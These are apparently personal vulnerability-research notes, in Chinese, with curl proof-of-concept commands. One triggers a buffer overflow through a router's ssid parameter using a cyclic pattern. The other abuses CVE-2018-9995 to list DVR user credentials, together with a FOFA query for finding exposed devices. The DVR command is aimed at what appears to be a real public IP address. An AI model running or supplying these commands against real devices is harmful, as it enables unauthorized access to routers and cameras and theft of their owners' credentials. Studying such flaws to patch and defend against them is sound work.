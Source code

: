 ## 调试tips

会遇到很多个pid的httpd，需要传一个busybox，然后用`netstat -npta`去查看，会得到181/httpd

![](image/5750edc0060dea9b56cc31717bf6f912.png)

## 测试poc
```sh
curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.0.1/LABTFQCAMGOPWQKA/userRpm/popupSiteSurveyRpm.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```
## 说明

此漏洞需要每次知道url的第一段内容，此内容是随机生成的，利用前提需要访问web端得知，且授权需知道密码
同CVE-2024-46325还没调试达到利用效果


# CVE-2018-9995
## FOFA
"XVR Login"
github:[CVE-2018-9995_dvr_credentials/README.md at dev_tool · ezelf/CVE-2018-9995_dvr_credentials (github.com)](https://github.com/ezelf/CVE-2018-9995_dvr_credentials/blob/dev_tool/README.md)
## poc
```
curl "http://85.105.249.37/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](image/21291ac47ab1d2d2a8f275abd224cf7d.png)
